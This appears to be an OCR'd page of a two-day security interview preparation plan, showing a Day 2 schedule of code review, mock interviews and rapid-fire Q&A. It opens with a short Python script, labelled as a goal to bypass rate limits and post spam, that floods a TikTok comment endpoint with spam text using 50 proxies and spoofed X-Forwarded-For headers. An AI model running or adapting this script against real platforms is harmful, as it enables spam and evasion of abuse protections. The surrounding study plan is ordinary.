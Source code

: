 ```bash
**Goal**: Bypass rate limits + post spam.  

```python
import requests
from multiprocessing import Pool

def spam_comment(proxy):
    headers = {"X-Forwarded-For": proxy}
    requests.post("https://api.tiktok.com/comment", 
                 data={"text": "BUY_VIAGRA"}, 
                 headers=headers)

# Use 50 proxies to bypass IP-based rate limiting
Pool(50).map(spam_comment, open("proxies.txt"))
```
---

##  Day 2 — Deep reviews, mocks & code practice

### 09:00 – 11:00 — Hands-On Code Review
- Choose a small web + mobile repo. Spend 90 minutes identifying security flaws.
- Produce a mini-report: 5 issues, ranking by severity + suggested fixes.  
**Goal:** Done within time with actionable findings.

---

### 11:15 – 13:00 — Mock Interview #1 (Technical Deep Dive)
- Simulate or time yourself: dive into one web vulnerability, one mobile test, and a privacy/security scenario.
- Make sure your answers are structured, trade-off aware, and succinct.

---

### 14:00 – 16:00 — Rapid-Fire Q&A Practice
- Use sample questions below; aim for crisp 1–2 minute responses. Focus on clarity, trade-offs, and examples.

---

### 16:30 – 18:00 — Mock Interview #2 (Live Code Review)
- Perform a live code review of a short file, articulate your reasoning, annotate findings, and propose improvements.

---

### 18:30 – 20:00 — Final Review & Mental Prep
- Revisit any weak spots.
- Prepare thoughtful questions for your interviewer—especially around threat modeling cadence, privacy-security collaboration, and bug bounty workflows.

---
